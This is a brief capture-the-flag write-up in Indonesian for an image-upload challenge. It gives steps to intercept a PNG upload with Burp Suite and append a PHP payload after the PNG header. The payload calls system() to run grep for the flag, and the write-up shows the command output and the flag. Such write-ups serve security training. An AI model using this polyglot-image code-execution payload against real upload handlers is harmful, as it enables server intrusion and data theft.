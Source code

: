 Mimin ada buat website buat kalian untuk upload gambar nih, akan tetapi gambarnya bakal di hapus setelah 2 menit yaa :D

Link : http://103.157.96.13:5553/

Prosedure:
1. Capture Request Dengan BurpSuite Saat Upload File PNG
2. Add Payload setelah PNG Header atau sesudah `89 50 4E 47 0D 0A 1A 0A`
3. Send Request
4. Show Image Di Website Target

Payload
```
<?php var_dump(system('grep -r "CTFR{" /var/www/'));?>
```

```
Binary file /var/www/html/uploads/90993789.png matches /var/www/flag/flag:CTFR{1m4g3_upl04d_1nt0_r3m0t3_c0d3_3x3cut10n} string(64) "/var/www/flag/flag:CTFR{1m4g3_upl04d_1nt0_r3m0t3_c0d3_3x3cut10n}" 
```

Flag
```
CTFR{1m4g3_upl04d_1nt0_r3m0t3_c0d3_3x3cut10n}
```